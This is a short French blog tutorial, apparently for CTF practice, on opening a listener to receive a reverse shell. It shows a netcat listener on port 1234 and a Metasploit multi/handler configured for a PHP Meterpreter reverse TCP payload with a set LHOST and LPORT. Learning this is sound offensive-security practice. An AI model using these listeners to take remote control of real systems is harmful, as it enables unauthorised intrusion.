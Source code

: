 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour des besoins plus avancés, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
     
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
---------------------------------------------

			
